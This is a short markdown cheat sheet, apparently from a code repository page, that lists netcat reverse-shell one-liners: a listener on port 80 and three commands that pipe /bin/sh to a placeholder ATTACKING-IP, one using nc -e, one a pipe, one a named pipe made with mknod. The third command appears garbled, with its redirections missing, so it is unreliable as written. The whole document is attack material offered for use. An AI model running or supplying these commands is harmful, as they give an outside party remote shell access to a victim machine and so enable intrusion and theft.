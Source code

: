 ### Start your listner 
```
nc -lnvp 80
```
### Listner Examples
* Example one
``` 
nc -e /bin/sh ATTACKING-IP 80
```
* Example two
```
/bin/sh | nc ATTACKING-IP 80
```
* Example Three
```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```
